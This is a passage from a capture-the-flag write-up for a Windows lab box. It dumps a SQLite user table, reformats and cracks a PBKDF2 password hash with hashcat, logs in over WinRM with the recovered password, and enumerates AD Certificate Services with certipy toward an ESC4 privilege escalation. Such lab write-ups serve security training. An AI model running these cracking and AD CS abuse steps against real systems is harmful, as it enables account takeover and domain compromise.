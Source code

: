 After that we'll use the `sqlite3` command to read the database contents:

```sqlite
select * from ab_user;
```

![image-20240329170952408](C:\Users\Ruy\AppData\Roaming\Typora\typora-user-images\image-20240329170952408.png)

However this hash is not well formatted in order to crack it:

```bash
# We put the password into a file called test
echo "5ac0eea8a8a1d13119a046d7a833ff18a7848dc4bc987b95804144b21e8f304e" > test
# Then we grab the salt and we encode it with base64
echo -n "Qg7UYbEbeBqqodEz" | base64
# After that we "unhex" the hashed password and encode it too
xxd -ps -r test | base64
# Finally, we format our hash like this: sha256:[itinerations]:[b64salt]:[b64hash]
echo -n "sha256:260000:UWc3VVliRWJlQnFxb2RFeg==:WsDuqKih0TEZoEbXqDP/GKeEjcS8mHuVgEFEsh6PME4=" > matthew.hash
```

Doing this, we are now able to crack it easily with the tool `hashcat`:

```bash
hashcat -m 10900 matthew.hash /usr/share/wordlists/rockyou.txt --show
```

![image-20240329171532939](C:\Users\Ruy\AppData\Roaming\Typora\typora-user-images\image-20240329171532939.png)

We can now use this password to connect via WinRM to the Windows end to read the user flag:

![image-20240329171657293](C:\Users\Ruy\AppData\Roaming\Typora\typora-user-images\image-20240329171657293.png)

## Privilege escalation

At this point of the box we can try to look for interesting privileges, but we notice we don't have any interesting of them. But, if we try to see if ADCS is installed we will notice that, indeed, is installed:

```powershell
(Get-WindowsFeature -Name ADCS-Cert-Authority -ErrorAction SilentlyContinue).Installed
```

![image-20240329171927486](C:\Users\Ruy\AppData\Roaming\Typora\typora-user-images\image-20240329171927486.png)

Knowing this, we'll start enumerating with the `certipy` tool:

```bash
certipy find -u matthew@airport.htb -p 'airforce1' -dc-ip 192.168.0.102 -stdout
```

![image-20240329172252135](C:\Users\Ruy\AppData\Roaming\Typora\typora-user-images\image-20240329172252135.png)

Down here we can notice that this tool is pointing to the ESC4, which will allow us to get an administrator hash to get a shell as it.
